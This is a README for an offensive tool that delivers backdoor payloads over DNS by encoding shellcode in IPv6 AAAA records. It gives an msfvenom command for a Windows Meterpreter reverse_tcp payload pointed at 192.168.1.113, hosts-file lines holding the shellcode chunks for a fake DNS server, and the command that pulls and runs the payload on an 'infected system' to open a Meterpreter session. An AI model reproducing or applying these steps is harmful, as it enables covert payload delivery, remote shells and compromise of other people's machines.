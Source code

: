 # NativePayload_IP6DNS
Published by Damon Mohammadbagher

this tool works like NativePayload_DNS , but in this case this tool working by IPv6 Address and AAAA records for Transferring Backdoor payloads by DNS Traffic ;)


note : this code supported only 990 bytes (99 lines IPV6 ADDRESS foreach 10 bytes) for Payloads , for changing this value you should change source code

note : {fe80:1111:}{fc48:83e4:f0e8:cc00:0000}{:ae0} {test.domain.com}

note : 10 bytes Payload ==> {fc48:83e4:f0e8:cc00:0000} and {:ae0} is payload counter or ID 


syntax 1 : NativePayload_IP6DNS.exe null "payload string"

description 1 : Making Hosts files for Linux Dns Server Like Dnsmasq or dnsspoof tools , copy output for this command to DNS Hosts file in linux
you can use Msfvenom tool like example and copy your payload in "payload string"

Example : payload string ==> fc4883e4f0e8cc000000415141505251564831d2ae1

Example: msfvenum --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.113 -f c > /dnsmasq.hosts

after this command you have something like these lines in your Hosts file :

Example : /etc/dnsmasq.hosts or /etc/hosts "depend on your configuration for dnsmasq or dnsspoof tools 

fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com

fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com

fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com

fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com

fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com

fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com

.

.

.

fe80:1111:85f6:75b4:41ff:e758:6a00:ae49 test.domain.com

fe80:1111:5949:c7c2:f0b5:a256:ffd5:ae50 test.domain.com





syntax 2 : NativePayload_IP6DNS.exe Payload

description 2 : this switch is for making sample payload for your hosts file


syntax 3 : NativePayload_IP6DNS.exe "FQDN" "Fake_DNS_Server"

description 3 : after making your payloads and copy that in your fake_DNS_Server by dnsmasq or dnsspoof and starting fakeDNSServer , now you can start transferring your Payloads From FakeDNSServer to your Infected system by NativePayload_IP6DNS.exe tool

Example : NativePayload_IP6DNS.exe  test.domain.com  192.168.1.113

note : in this case 192.168.1.113 is your FakeDNSServer also this is your Metasploit: Meterpreter/Listener.

you should have meterpreter session after 1 DNS Response from FakeDNSserver to Client (Backdoor system)



